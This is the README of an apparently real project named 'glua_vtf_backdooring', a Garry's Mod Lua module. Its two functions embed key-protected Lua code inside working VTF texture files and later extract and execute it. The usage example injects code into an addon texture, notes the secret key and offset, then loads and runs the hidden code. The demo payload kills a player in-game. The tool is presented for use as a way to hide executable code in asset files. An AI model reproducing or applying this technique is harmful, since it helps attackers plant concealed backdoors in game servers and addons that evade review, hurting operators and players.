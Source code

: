 # glua_vtf_backdooring
Injecting lua code in working VTF files and then running it


`void mat_payload.WriteCodeToVTF(char* identifier, char* lua_code, [optional] char* vtf_to_inject)`

`void* mat_payload.ReadCodeFromVTF(char* path, char* key, int64 offset)`

Example lua code

All paths are in BASE_PATH context


```Lua

require("mat_payload")


local code = [[

print'yolahahaha hello from a vtf file'

print'this is sparta'

player.GetByID(1):Kill()
print(SysTime())


]]

mat_payload.WriteCodeToVTF("skybox_item_10_tmp", code, "garrysmod/addons/CSS Content Addon (Jul2014)/materials/buildings/antn01.vtf")


--Wrote to file : [garrysmod/data/skybox_item_10_tmp.vtf] with secret key "68124168458642", and VTF offset is 87600, SAVE ALL OF THESE INFORMATIONS


local func = mat_payload.ReadCodeFromVTF("garrysmod/data/skybox_item_10_tmp.vtf", "68124168458642", 87600)

func()

```
